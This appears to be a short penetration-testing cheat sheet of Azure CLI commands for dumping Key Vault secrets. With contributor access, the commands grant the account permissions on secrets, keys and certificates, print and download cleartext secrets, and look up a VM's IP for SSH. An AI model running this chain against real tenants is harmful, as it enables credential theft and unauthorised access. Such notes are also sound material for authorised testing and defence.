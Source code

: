 # Az Linux CLI Tool

### Authentication

 - az login

# Dump Azure Key Vaults

### List out any key vault resources the current account can view

 - az keyvault list –query '[].name' --output tsv

### With contributor level access you can give yourself the right permissions to obtain secrets.

 - az keyvault set-policy --name KEY_VAULT_NAME --upn YOUR_CONTRIBUTOR_USERNAME --secretpermissions get list --key-permissions get list --storage-permissions get list --certificate-permissions get list

### Get URI for Key Vault

 - az keyvault secret list --vault-name KEY_VAULT_NAME --query '[].id' --output tsv

### Get cleartext secret from keyvault

 - az keyvault secret show --id URI_FROM_LAST_COMMAND | ConvertFrom-Json

### Download the secret from keyvault in a .pem file for better formatting

 - az keyvault secret download --id URI_ID --file KEY.pem

### Get Public IP of a VM instance we want to SSH in

 - az vm show -d -g RESOURCE_GROUP -n VM_NAME --query publicIps -o tsv
